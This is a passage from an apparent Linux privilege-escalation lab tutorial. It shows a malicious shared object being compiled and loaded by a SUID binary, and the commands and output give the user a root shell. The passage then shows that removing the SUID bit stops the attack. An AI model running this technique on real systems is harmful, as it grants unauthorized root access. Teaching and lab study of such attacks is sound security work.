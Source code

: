 Create the shared object:

```bash
low@ubuntu:~/.config$ gcc -shared -o custom.so custom.o
```

Execute the program and since program has a SUID bit set, it executes as root, then it loads the evil library, and the evil library spawns a root shell:

```bash
/usr/bin/nosuchfile
```

As you can see we're able to escalate to the root user:

```bash
low@ubuntu:~/.config$ /usr/bin/nosuchfile
Hello
root@ubuntu:~/.config# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare),1000(low)
```

Now remove the SUID bit and try to execute the binary again:

```bash
low@ubuntu:~/.config$ sudo chmod u-s /usr/bin/nosuchfile 
low@ubuntu:~/.config$ /usr/bin/nosuchfile
Hello
low@ubuntu:~/.config$ 
```

For this to work, the binary must have the SUID bit set.

